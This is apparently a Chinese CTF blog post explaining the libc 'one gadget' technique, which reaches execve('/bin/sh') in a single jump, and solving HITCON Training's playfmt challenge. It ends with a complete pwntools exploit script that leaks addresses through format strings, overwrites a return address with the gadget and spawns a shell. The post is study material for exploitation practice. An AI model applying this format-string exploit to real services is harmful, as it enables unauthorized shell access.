 ```yaml
---
title: One gadget
date: 2022-03-13 18:52:05
tags:
    - 格式化字符串

---
```


<!--more-->

# 学习One gadget 

one gadget最终是执行的execve("/bin/sh",argv,envp)，以下是函数原型

```
#include <unistd.h>

int execve(const char *pathname, char *const argv[],
           char *const envp[]);


```

## 前提概述

### 函数功能：

1.执行pathname指定的程序（创建新进程），pathname 是二进制程序或是可执行脚本（通常用来执行"/bin/sh"）

数据类型：const char *pathname 字符串常量

2.argv 是传给新程序的参数列表

数据类型：char *const argv[] 字符串数组常量

3.envp 是新程序的环境变量列表，通常是key=value的形式

数据类型：char *const envp[] 字符串数组常量

### 注意：

```
argv 和 envp 数组的末尾必须是一个空指针（NULL pointer）
```

在execve的三个参数中，首个参数pathname显然是最重要的，这点可以从官方手册的描述中看出来。说到pathname时用的词是must，而到了argv和envp则说By convention或是conventionally。

也就是说argv和envp这两个参数的限制没那么严格，按照惯例argv[0]是被执行程序的程序名，但也可以不是；按照惯例环境变量应该是key=value的格式，但也可以不是。

## One gadget

在rop攻击中，讲究的是团队合作，每个人(gadget)的能力有限，只能完成部分工作，因此需要大家互相配合一起完成任务。而one gadget是个人能力超群，以一人之力便可完成全部任务的地表最强gadget。


one gadget虽然强大，但是却存在限制条件，以libc2.30为例：（可以通过one_gadget工具进行查看libc中存在的one gadget）

![image-20220313151728304](https://s2.loli.net/2022/03/26/4WzFJNmM7reAVbI.png)

这里虽然只显示了4个one gadget，但实际上libc中并不是只有这4个one gadget。

one_gadget命令默认显示的是限制条件比较宽泛的one gadget，通过-l参数指定搜索级别，显示更多的one gadget

## 样例

以Hitcon Trainning playfmt为例，使用onegadget解题

先onegadget获取一下libc的可使用情况

![image-20220313162955055](https://s2.loli.net/2022/03/26/htowqRFExBQVm8f.png)

这边我随便使用了第二个0x3d2a5为gadget的基地址

![image-20220313163421352](https://s2.loli.net/2022/03/26/ve79insFGoChLWd.png)

然后我们这次主要目的是覆盖这个__libc_start_main的地址，覆盖为onegadget，但是这里有两个 \__libc_start_main,经过调试后可以发现真正用的是第二个，所以我们要把ebp的指针指向偏移为0x24的_libc_start_main地址

![image-20220313163752855](https://s2.loli.net/2022/03/26/rdsc3Nf1T9m4bwX.png)

然后可以看到system函数和_libc_start_main后三个字节不一样，所以我们要进想两次地址写入，第一次写两字节的低地址，第二次写入高地址的第二字节

然后给EXP吧

```
#!/usr/bin/env python 
#_*_ coding:utf-8 _*_ 
from pwn import *
context.log_level='debug'
sh=process('./playfmt')
elf=ELF('./playfmt')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')

printf_got = elf.got['printf']
printf_libc = libc.symbols['printf']
system_libc = libc.symbols['system']
def b(addr):
    bk = "b *" + str(addr)
    gdb.attach(sh, bk)
    success("attach")
def check():
    sh.sendline('yes!')
    while True:
        sh.sendline('yes!')
        sleep(0.1)
        if sh.recv().find('yes!') != -1:
            break
sh.sendline('aaaa%6$pbbbb%15$p')
sh.recvuntil('aaaa')
#上面内容还是和我上一篇文章一样，第一步都要先泄露地址
stack=int(sh.recv(10),16)+0x24
log.success("stack-->{}".format(hex(stack)))
sh.recvuntil('bbbb')
libc_base=int(sh.recv(10),16)+0x18fa1
log.success("libc_base-->{}".format(hex(libc_base)))
system_addr=system_libc+libc_base
onegadget=libc_base+0x3d2a5
log.success('one-->{}'.format(hex(onegadget)))
#b(0x804853B)
payload="%"+str((stack)&0xff)+"c"+"%6$hhn"
sh.sendline(payload)
sleep(0.3)
check()
payload='%'+str(onegadget&0xffff)+'c%10$hn'#写入低地址两字节
sh.sendline(payload)
sleep(0.3)
check()
payload='%'+str((stack+2)&0xff)+'c%6$hhn'#写入高地址的第二字节
sh.sendline(payload)
sleep(0.3)
check()
#b(0x804853B)
payload='%'+str((onegadget>>16)&0xff)+'c%10$hhn'
sh.sendline(payload)
sleep(0.3)
check()
#修复ebp，这道题因为使用onegadget后ebp会发生改变报错
payload='%'+str((stack-0x14)&0xff)+'c%6$hhn'
sh.sendline(payload)
b(0x804853B)
sh.sendline('quit')
#sh.sendline("/bin/sh")
sleep(0.3)
sh.interactive()
sh.close()
```

## 参考学习

TaQini师傅的链接: http://taqini.space/2020/04/29/about-execve/



